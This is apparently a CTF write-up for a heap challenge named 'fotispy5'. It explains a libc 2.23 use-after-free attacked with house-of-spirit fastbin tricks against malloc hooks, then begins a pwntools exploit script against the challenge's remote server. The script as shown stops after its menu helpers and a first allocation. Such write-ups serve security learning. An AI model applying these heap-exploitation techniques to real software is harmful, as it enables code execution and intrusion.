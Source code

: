 ## fotispy5

Done in maybe 3 hrs.

Libc 2.23 with UAF, but we can only print the first 3 bytes of a chunk.

Moreover, it gives a gadget of `malloc("/bin/sh")`. Usually we don't write to malloc hooks if we have arb-write primitives. **The only exception is arbitrary alloc attack using house of spirit in libc 2.23**. See the description on [CTF Wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/fastbin-attack/#arbitrary-alloc).

We need another house of spirit attack to leak the full libc address.

Also a bit easy heap feng shui. See the comments in the exp below for details.

```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")
# p = process("fotispy1")
# p = process("./fotispy5")
p = remote("52.59.124.14", 5195)
libc = ELF("./libc.so.6")

def add_song(comment_len, comment):
    p.recvuntil("Choice: ")
    p.sendline("2")
    p.recvuntil("How long will the comment be: ")
    p.sendline(str(comment_len))
    p.recvuntil("Enter the comment: ")
    p.sendline(comment)

def edit_comment(idx, comment_len, comment):
    p.recvuntil("Choice: ")
    p.sendline("3")
    p.recvuntil("Which song to you want to select: ")
    p.sendline(str(idx))
    p.recvuntil("How long will the new comment be: ")
    p.sendline(str(comment_len))
    p.recvuntil("Enter the new comment: ")
    p.sendline(comment)

def delete(idx):
    p.recvuntil("Choice: ")
    p.sendline("4")
    p.recvuntil("Which song to you want to select: ")
    p.sendline(str(idx))

def view(idx):
    p.recvuntil("Choice: ")
    p.sendline("6")
    p.recvuntil("Which song to you want to select: ")
    p.sendline(str(idx))

# choice l for likes, d for dislikes, s for length
def edit(idx, choice, content):
    p.recvuntil("Choice: ")
    p.sendline("7")
    p.recvuntil("Which song to you want to select: ")
    p.sendline(str(idx))
    p.recvuntil("[~] Choice: ")
    p.sendline(choice)
    p.recvuntil("What is the new value [0-255]: ")
    p.sendline(str(content))

add_song(0x500, b"A"*0x500) #0
```